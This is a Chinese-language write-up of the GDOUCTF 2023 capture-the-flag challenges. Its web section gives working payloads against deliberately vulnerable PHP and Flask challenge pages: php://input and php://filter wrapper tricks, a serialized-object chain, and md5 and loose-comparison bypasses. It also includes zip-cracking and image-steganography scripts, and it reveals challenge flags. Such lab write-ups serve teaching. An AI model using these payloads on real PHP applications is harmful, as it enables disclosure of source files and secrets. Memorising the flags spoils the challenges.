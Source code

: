 # GDOUCTF 2023

## Web

### 泄露的伪装

通过 dirsearch 可以发现 `/test.txt` 、 `/www.rar` 为可访问文件， `/test.txt` 文件内容即为开屏显示内容， `/www.rar` 为一个空的压缩包

通过 010Editor 可以发现 `www.rar` 的文件头为 504B0304，说明此文件原先为 ZIP 压缩包，修改文件名为 `www.zip` 并打开压缩包可以获得 `gift（2）.txt` 文件，使用文本打开可以得到下一关 `/orzorz.php` ，跳转到 `/orzorz.php` 可以得到一下 PHP 代码。

```php
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "洗洗睡吧";
    }
}else{
    echo "nononoononoonono";
}
?>
```

file\_get\_contents() 函数可以通过 php://input 或者 data:// 伪协议进行绕过，例如 `data://text/plain;base64,<base64 data>` 或者 `php://input` 并且在 body 属性中加入所需 input 的值

通过构造 payload `[params]cxk=php://input [body]ctrl` 即可获得 flag

### 反方向的钟

通过 Network 可知当前系统的 PHP 版本为 7.3.11，排除 \_\_wakeup() 绕过这一方法。

通过逐步分析类可以构造出以下示例

```php
$a = new school(new classroom("one class", new teacher("ing", "department")), "ong");
$str = base64_encode(serialize($a));
echo $str;
// Tzo2OiJzY2hvb2wiOjI6e3M6MTA6ImRlcGFydG1lbnQiO086OToiY2xhc3Nyb29tIjoyOntzOjQ6Im5hbWUiO3M6OToib25lIGNsYXNzIjtzOjY6ImxlYWRlciI7Tzo3OiJ0ZWFjaGVyIjozOntzOjQ6Im5hbWUiO3M6MzoiaW5nIjtzOjQ6InJhbmsiO3M6MTA6ImRlcGFydG1lbnQiO3M6MTU6IgB0ZWFjaGVyAHNhbGFyeSI7aToxMDAwMDt9fXM6MTA6ImhlYWRtYXN0ZXIiO3M6Mzoib25nIjt9 
```

通过构造 payload 可以回显 Pretty Good ! Ctfer! 说明执行成功，就到了下一步，即使用 SplFileObject 类进行读写文件，搭配 php:// 伪协议即可获取 flag.php 的内容

通过构造 payload `a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php` 回显得到 PD9waHANCiRmbGFnID0gIk5TU0NURnszOWIxYWE4NS1mNTEyLTQwYTEtOTI4NS0wNmIyYmZmMjY5ZmJ9IjsNCj8+DQo=，解密即可得到 flag

### 受不了一点

第一关为 md5 的强比较绕过，通过构造数组 `ctf[]=1&gdou[]=2` 绕过即可。

第二关为 cookie，直接设置 cookie 为 `j0k3r` 即可。

第三关为类型弱比较，通过在传参时添加字母即 `aaa=114514&bbb=114514a` 就可以绕过。

第四关为引用变量，通过代码可以进行构造

```php
$1 = $flag;
$flag = $1 = $flag;
```

即 payload(params) `1=flag&flag=1` 就可以获得 flag 了。

### EZ WEB

通过查看源代码可以获得 Hint "/src"，通过访问后便可以得到 `app.py` 。

通过查看 `app.py` 可以看到这题需要使用 Flask 模板注入，并且还提供了一个入口 `/super-secret-route-nobody-will-guess` 并且支持 PUT 方式发送请求，因此发送 PUT 请求即可得到 flag 了。

### hate eat snake

可以发现蛇的速度可以通过 Snake 类的 speed 属性进行设置，因此通过 setInterval() 函数让蛇速度一直为 0 即可获得 flag

```js
let snake = new Snake('eatSnake', 0, false);
setInterval(() => { snake.speed = 0 }, 1);
```

## MISC

### misc\_or\_crypto?

> bmp图片隐写

下载附件后获得 `flag.bmp` 文件，通过在 Linux 终端中输入

```sh
$ string flag.bmp
```

即可以获得一串 RSA 密钥以及一串密文，通过将密文解密即可获得 flag，但是存在一个坑，即 **flag 以 NSSCTF{} 形式提交**。

### Matryoshka

> 压缩包套娃

通过下载附件可以得到压缩包 `Matryoshka.zip` ，解压后可以得到加密的压缩包 `Matryoshka1000.zip`

以及密码文本 `password1000.txt` 。通过分析需要替换才能获得真正的密码，替换如下

```python
passwd = open('./task/password1000.txt').read()

passwd = passwd.replace('one', '1')
passwd = passwd.replace('two', '2')
passwd = passwd.replace('three', '3')
passwd = passwd.replace('four', '4')
passwd = passwd.replace('five', '5')
passwd = passwd.replace('six', '6')
passwd = passwd.replace('seven', '7')
passwd = passwd.replace('eight', '8')
passwd = passwd.replace('nine', '9')
passwd = passwd.replace('zero', '0')
passwd = passwd.replace('plus', '+')
passwd = passwd.replace('times', '*')

print(passwd)
# 8509527+170747742+410330*351657887+51791538
```

通过 eval 函数执行可以得出计算结果为 `144296011821517` ，验证结果密码错误，尝试从左到右进行计算。

```python
print((8509527+170747742+410330)*351657887+51791538)
# 63181528278494851
```

以上密码经过验证密码正确，因此通过循环解开所有套娃的压缩包即可。在解开所有压缩包之前还需要获得剩下两个运算符的替换。通过上面类似代码可以得出

```python
passwd = passwd.replace('minus', '-')
passwd = passwd.replace('mod', '%')
```

当循环代码执行到 996 时报错【解压密码错误】，通过查看密码可以发现密码为 `-29041679` 是负数，需要转换为正数才可以，因此需要使用 abs 函数，具体代码如下

```python
import zipfile
import re
import os

def password(_path):
    pwd = open(_path)
    
    passwd = pwd.read()
    passwd = passwd.replace('one', '1')
    passwd = passwd.replace('two', '2')
    passwd = passwd.replace('three', '3')
    passwd = passwd.replace('four', '4')
    passwd = passwd.replace('five', '5')
    passwd = passwd.replace('six', '6')
    passwd = passwd.replace('seven', '7')
    passwd = passwd.replace('eight', '8')
    passwd = passwd.replace('nine', '9')
    passwd = passwd.replace('zero', '0')
    passwd = passwd.replace('plus', '+')
    passwd = passwd.replace('times', '*')
    passwd = passwd.replace('minus', '-')
    passwd = passwd.replace('mod', '%')

    number = re.findall(r'\d+', passwd)
    symbol = re.findall(r'\D+', passwd)

    result = ''

    for i in range(len(symbol)):
        if i == 0:
            result = str(eval(str(int(number[i])) + symbol[i] + str(int(number[i + 1]))))
        else:
            result = str(eval(result + symbol[i] + str(int(number[i + 1]))))

    pwd.close()
    return str(abs(int(result)))


path = './Matryoshka.zip'
zip_src = zipfile.ZipFile(path, 'r')
zip_src.extractall('./task')
zip_src.close()

for i in range(1000, -1, -1):
    zip_path = "./task/Matryoshka{}.zip".format(i)
    password_path = "./task/password{}.txt".format(i)

    print(i, password(password_path).encode())
    zip_src = zipfile.ZipFile(zip_path)
    zip_src.extractall('./task', pwd=password(password_path).encode())

    zip_src.close()
    os.remove(zip_path)
    os.remove(password_path)
```

运行结束后获得 `flag.txt` 文件，内容即为 flag

### pixelart

> 参考WP https://www.nssctf.cn/note/set/1790 感谢 hehanzzz 师傅

下载附件通过 010Editor 可以在尾部发现提示 `320*180` 的提示，而源图片分辨率为 `3840*2160` ，说明按照等比例缩小了 12 倍，因此需要编写代码将图片缩小 12 倍

```python
from PIL import Image

original_image = Image.open('arcaea.png')

new_width = original_image.width // 12
new_height = original_image.height // 12

new_image = Image.new("RGB",(new_width,new_height))

for x in range(new_width):
    for y in range(new_height):
        pixel = original_image.getpixel((x *12,y*12))
        new_image.putpixel((x,y),pixel)

new_image.save("flag.png")
```

之后通过 `zsteg flag.png` 即可获得 flag
